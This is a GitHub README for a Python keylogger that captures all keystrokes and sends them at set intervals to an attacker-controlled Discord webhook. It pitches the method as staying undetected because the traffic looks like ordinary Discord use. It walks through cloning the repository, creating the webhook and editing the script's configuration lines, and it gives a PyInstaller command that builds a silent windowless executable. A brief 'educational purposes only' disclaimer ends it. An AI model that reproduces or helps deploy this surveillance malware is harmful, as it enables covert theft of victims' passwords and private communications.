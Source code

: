 Keylogger That Reports To Discord

This python script will capture all of the keystrokes within a given time frame and report them to a Discord Server using Webhooks. Instead of the traditional "save to file" or "report to email" methods, you can use this method to stay undetected since webhook requests are considered as normal Discord Traffic.

![image](https://i.ibb.co/LrkQPc3/keylogger.png)

## Getting Started

Make sure you have Python installed on your machine, you download the installer from [here](https://www.python.org/downloads/).

## Clone the repository
```
git clone https://github.com/3ct0s/discord-keylogger.git
```
Or you can download the zip file from the repository website.

## Install Required Libraries
```
python -m pip install -r requirements.txt
```

## Create a Discord Server 

You can follow [this](https://support.discord.com/hc/en-us/articles/204849977-How-do-I-create-a-server-) article on how to do that.

## Create a Discord Webhook

Got to your servers settings select Intergrations >> Webhooks and create a new Webhook. You can also customize it and give it a name and a featured icon. Make sure to copy the URL, you will need it later.

![screenshot](https://i.ibb.co/0JWHdWz/Capture.png)

## Edit keylogger.py
Its time to edit the python script. Now that you have the Webhook URL, you can add that to the file. Also make sure to add your desired timeframe that they keylogger will report to you. You have to add the time in seconds so you can use [this](https://www.calculatorsoup.com/calculators/conversions/time.php) converter to get the correct time in seconds.

```Python
import keyboard,os
from threading import Timer
from datetime import datetime
from discord_webhook import DiscordWebhook, DiscordEmbed

SEND_REPORT_EVERY = TIME_IN_SECONDS_HERE
WEBHOOK = "WEBHOOK_URL_HERE"
```

## Execute the script

You are now ready to test the script and see whether if it works or not. If you are having problems with the script please open a new ticket on the issues tab and i will try to help you.

To execute the script all you have to do is run:
```
python keylogger.py
```
If all goes right, you should see a report on discord after the seconds you have specified on the script have passed.
![rick](https://i.ibb.co/ckF9jbk/rick.png)

## Compile the script

Now what if you want to turn this into an executable? You can do that with the pyinstaller library that was included in the requirements.txt file.
```
pyinstaller PATH_TO_SCRIPT --onefile --noconsole
```
## ⚠️ DISCLAIMER ⚠️

**I am not responsible for any of your actions. This GitHub repository is made for educational purposes only!!!**
